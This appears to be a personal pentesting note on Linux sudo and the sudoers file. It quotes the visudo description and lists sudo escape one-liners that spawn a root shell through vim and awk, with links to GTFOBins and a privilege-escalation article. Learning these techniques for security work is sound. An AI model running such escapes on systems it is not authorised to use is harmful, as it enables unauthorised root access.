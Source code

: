 #### Sudo Overview
Sudo is a command in #Linux that allows users to run commands with privileges that only #root user have. It helps users to do tasks with administrative power without logging in as the root user, though sometimes it can be risky.

These users who can use the **sudo*** command need to have an entry in the **sudoers** file located at ****“/etc/sudoers”****.

***visudo*** - edits  the sudoers file in a safe fashion, analogous to ***vipw***.  visudo locks
       the sudoers file against multiple simultaneous edits, performs basic validity checks,
       and  checks  for syntax errors before installing the edited file.  If the sudoers file
       is currently being edited you will receive a message to try again later.
```
   sudo -l  # list commands allowed by sudo users
   sudo vim -c ':!/bin/sh' # switch user to root
   sudo vim -c ':!/bin/bash'
   sudo awk 'BEGIN {system("/bin/sh")}'
```
Great resources to #exploit sudo escaping
GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/)
Hacker Article - https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
